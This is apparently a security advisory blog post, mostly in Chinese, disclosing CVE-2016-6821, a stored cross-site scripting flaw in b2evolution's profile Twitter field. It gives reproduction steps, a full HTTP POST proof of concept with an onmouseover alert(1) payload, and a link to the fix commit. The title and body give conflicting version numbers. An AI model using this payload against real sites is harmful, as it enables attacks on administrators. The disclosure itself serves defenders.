 ```yaml
---
layout: post
title: B2evolution v6.4.7 XSS [CVE-2016-6821]
---
```


发现者: 陈瑞琦 

发现日期: 2016-08-09

下载地址: [b2evolution](http://b2evolution.net/downloads/)

作者: b2evolution.net

作者通知日期: 2016-08-09

作者联系手段: http://b2evolution.net/?disp=msgform

CVE-ID：CVE-2016-6821

**描述:**

b2evolution is a content and community management system written in PHP and backed by a MySQL database. It is distributed as free software under the GNU General Public License.
b2evolution originally started as a multi-user multi-blog engine when Fran?ois Planque forked b2evolution from version 0.6.1 of b2/cafelog in 2003.[2] A more widely known fork of b2/cafelog is WordPress. b2evolution is available in web host control panels as a "one click install" web app.[3](Wiki)

**细节:** 

B2evolution v6.7.4有一个存储型XSS
任意用户可以编辑用户信息内的twitter信息来插入恶意代码
当管理员在后台查看用户信息时候，插入的恶意代码将会执行

第一步: 注册一个用户

第二步: [编辑自己的twitter信息](http://192.168.204.128/b2evolution/index.php?disp=profile),在其中添加恶意代码，如https://twitter.com/kevino"onmouseover="alert(1)"onerror=1

**PoC:**

`code`
<pre><code>
POST /b2evolution/htsrv/profile_update.php HTTP/1.1
Host: 192.168.204.128
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.204.128/b2evolution/index.php?disp=profile
Cookie: {the cookies}
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 653

edited_user_login=kevino&edited_user_firstname=kevino&edited_user_lastname=kevino&edited_user_nickname=kevino&edited_user_gender=M&edited_user_ctry_ID=&edited_user_rgn_ID=&edited_user_subrg_ID=&edited_user_city_ID=&edited_user_age_min=&edited_user_age_max=&organizations%5B%5D=&uf_38=kevino&uf_39=kevino&uf_40=kevino&uf_41=https%3A%2F%2Ftwitter.com%2Fkevino%22onmouseover%3D%22alert%281%29%22onerror%3D%221&uf_42=https%3A%2F%2Ffacebook.com%2Fkevino&uf_43=http%3A%2F%2Fkevino.net%2Fkevino&new_field_type=3&actionArray%5Bupdate%5D=Save+Changes%21&crumb_user=CQ7LjBDKmMin8zqBDl050nNEbmINmIGi&user_tab=profile&identity_form=1&user_ID=8&blog=1&orig_user_ID=8&12_3=4_56
</code></pre>

**Fix:**

https://github.com/b2evolution/b2evolution/commit/83c40129f471b659755491a02b2ad981995d37c1
